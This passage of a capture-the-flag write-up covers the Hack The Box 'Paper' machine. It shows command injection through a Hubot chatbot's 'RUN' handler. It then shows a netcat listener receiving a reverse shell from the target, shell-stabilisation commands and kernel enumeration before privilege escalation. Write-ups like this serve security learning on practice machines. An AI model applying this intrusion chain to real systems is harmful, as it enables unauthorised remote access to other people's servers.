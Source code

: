 So here's whats happening

```
This is a JavaScript code that exports a function that acts as a handler for a chatbot built using the Hubot framework. The handler listens for a message in the chat that matches the regular expression /RUN (.*)$/i. The regular expression matches any message that starts with "RUN" followed by a space and some text. The text is captured and stored in the cmd variable.

When a message that matches the regular expression is received, the handler sends a message to the chat saying "Running [captured text]". It then uses the child_process.exec function from the Node.js child_process module to execute the command stored in cmd. If there is an error executing the command, it sends the error message to the chat, otherwise, it sends the output of the command to the chat.
```

Thanks ChatGPT 🤟🏼

So basically we can run commands ( os command) using `RUN` then what we want to run
![image](https://user-images.githubusercontent.com/113513376/217376926-aa87a526-e70a-4f60-aaae-bb0e6a09f813.png)

Lets get a reverse shell then xD
![image](https://user-images.githubusercontent.com/113513376/217377162-b6aa25af-af47-4b83-ad4c-386f3cd96880.png)

Back on the listener

```                                  
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Paper]
└─$ nc -lvnp 1337                                     
listening on [any] 1337 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.143] 55216
bash: cannot set terminal process group (1717): Inappropriate ioctl for device
bash: no job control in this shell
[dwight@paper hubot]$ 
```

Now i'll stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
reset
```

Now lets get root

The kernel version is pretty old and there's gcc installed on the box

```
[dwight@paper hubot]$ uname -a
Linux paper 4.18.0-348.7.1.el8_5.x86_64 #1 SMP Wed Dec 22 13:25:12 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
[dwight@paper hubot]$ which gcc
/usr/bin/gcc
[dwight@paper hubot]$ 
```
